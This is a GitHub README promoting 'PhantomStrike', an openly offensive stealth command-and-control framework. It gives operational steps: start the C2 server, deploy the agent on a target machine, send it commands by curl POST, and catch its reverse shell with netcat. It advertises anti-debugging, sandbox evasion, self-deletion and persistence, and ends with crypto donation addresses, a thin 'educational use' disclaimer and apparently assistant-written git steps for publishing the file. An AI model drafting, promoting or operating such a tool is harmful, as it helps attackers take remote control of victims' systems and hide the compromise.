 ```yaml
---

██████╗ ██╗  ██╗ █████╗ ███╗   ███╗████████╗ ██████╗ ███████╗
██╔══██╗██║  ██║██╔══██╗████╗ ████║╚══██╔══╝██╔═══██╗██╔════╝
██████╔╝███████║███████║██╔████╔██║   ██║   ██║   ██║███████╗
██╔═══╝ ██╔══██║██╔══██║██║╚██╔╝██║   ██║   ██║   ██║╚════██║
██║     ██║  ██║██║  ██║██║ ╚═╝ ██║   ██║   ╚██████╔╝███████║
╚═╝     ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝   ╚═╝    ╚═════╝ ╚══════╝

PhantomStrike - Stealth C2 Framework

🚀 Advanced post-exploitation framework for stealth persistence, privilege escalation, and remote control.


---
```


🔧 Features

✅ AES Encryption – Secure communication
✅ Stealth Mode – Hides execution traces
✅ Anti-Debugging – Evades analysis tools
✅ Reverse Shell – Full remote access
✅ Fileless Execution – Runs in memory
✅ Self-Delete – Auto-removes after execution
✅ Persistence Mode – Maintains access after reboots


---

📌 Installation

1️⃣ Clone the Repo

git clone https://github.com/Akkaiaj/PhantomStrike.git
cd PhantomStrike

2️⃣ Install Dependencies

pip install -r requirements.txt


---

🚀 Usage

1️⃣ Start the C2 Server (Attacker Machine)

python3 phantom_c2.py

📌 This will start the Flask-based C2 server.


---

2️⃣ Deploy the Agent (Target Machine)

Run the agent on the target system:

python3 phantom_agent.py

📌 This will:

Connect to the C2 server

Execute commands sent from C2

Start a reverse shell



---

🛠️ Sending Commands

From the C2 server, you can send commands to the agent:

curl -X POST http://your-server-ip:5000/command -H "Content-Type: application/json" -d '{"command": "whoami"}'

📌 The agent will execute this command and send back the result.


---

🔥 Reverse Shell Usage

Once the agent is running, connect to the reverse shell from the C2 machine:

nc -lvnp 4444

📌 Now you have full control over the target system!


---

🕵️‍♂️ Evasion & Persistence

Anti-Debugging: Detects debuggers and terminates itself.

Self-Delete: Deletes itself after execution to remove traces.

Persistence Mode: Runs at startup for continued access.



---

🛡️ Defensive Measures

Uses AES encryption to secure command communication

Evades sandbox detection & monitoring tools

Implements polymorphic obfuscation for stealth



---

💰 Donate & Support

If you find PhantomStrike useful, consider donating:

BTC: bc1q0ruwrc4gs465xvu6tcn24h62pclt96sh2yv8pq
ETH: 0x69B6F3aA9F470d4cBD93CDC4c0A887C0787CEf9B
SOL: Gk6CmvvS6fi1Nfnu7QEEneshbLkmaE5Ue8sBzxz91D3q


---

💀 Disclaimer

This tool is for educational and ethical hacking purposes only. Unauthorized use is illegal.


---

✅ Now update your GitHub repo with this README:

cd ~/PhantomStrike
nano README.md  # Replace with new content
git add README.md
git commit -m "Updated README with detailed usage and ASCII art"
git push origin main
